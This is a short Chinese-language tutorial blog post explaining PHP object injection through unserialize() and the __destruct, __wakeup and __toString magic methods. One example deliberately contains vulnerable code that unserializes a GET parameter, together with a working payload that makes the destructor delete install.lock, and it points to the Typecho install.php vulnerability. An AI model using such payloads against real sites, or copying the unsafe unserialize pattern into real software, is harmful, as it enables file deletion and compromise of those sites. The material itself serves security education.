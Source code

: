 ```yaml
---
title: "PHP 对象注入"
date: 2018-05-13T00:00:00+08:00
draft: false
tags: ['php']
categories: ['编程']
author: "X1r0z"

# weight: 1  # Top page

# You can also close(false) or open(true) something for this content.
# P.S. comment can only be closed
comment: false
toc: false
autoCollapseToc: false
---
```


序列化 (serialize) 指将 PHP 变量/数组/函数/类 转换为可保存或传输的过程, 再通过反序列化 (unserialize) 转换为原来的数据使用.

<!--more-->

关于反序列化 有 3 个魔术方法.

```
__destruct - 程序结束时调用
__wakeup - 类被反序列化时调用
__toString - 类被作为字符串时调用
```

# Example 1

```
class Test{
	var $name = 'hello';
	public function __destruct(){
		echo $this->name;
	}
```

该类实例化后将在程序结束时打印出 name 的值.

更改 name 的值, 之后序列化.

```
$test = new Test();
$test->name = 'world';
echo serialize($test);

O:4:"Test":1:{s:4:"name";s:5:"world";}
```

反序列化.

```
$u = unserialize('O:4:"Test":1:{s:4:"name";s:5:"world";}');
```

```
world
```

# Example 2

```
class FileClass{

	var $filename;
	var $content;

	public function __construct($filename,$content){
		$this->filename = $filename;
		$this->content = $content;
	}

	public function write($content){
		file_put_contents($this->filename,$content);
	}

	public function __destruct(){
		echo 'clean file'.$this->filename;
		@unlink($this->filename);
	}
}

$u = unserialize($_GET['u']);
?>
```

利用

```
class FileClass{
	var $filename = 'install.lock';
}
echo serialize(new FileClass());
```

GET 传递 `O:9:"FileClass":1:{s:8:"filename";s:12:"install.lock";}`

```
clean file install.lock
```

# Other

参考 Typecho install.php 反序列化漏洞

https://paper.seebug.org/424/